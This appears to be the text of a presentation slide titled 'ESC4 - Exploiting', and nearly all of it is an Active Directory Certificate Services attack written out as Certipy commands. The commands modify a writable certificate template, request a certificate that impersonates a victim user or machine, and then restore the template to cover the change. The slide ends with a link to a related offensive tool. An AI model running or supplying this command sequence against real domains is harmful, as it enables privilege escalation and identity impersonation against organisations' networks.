

# ESC4 - Exploiting
certipy template -u USER@DOMAIN -p PASS -template ESC4-Test -save-old
certipy req -u USER@DOMAIN -p PASS -ca CA_NAME -target CA_DNS -template TEMPLATE -upn USER_VICTIM -dns MACHINE_VICTIM
certipy template -u USER@DOMAIN -p PASS -template ESC4-Test -replace

Using: https://github.com/cfalta/PoshADCS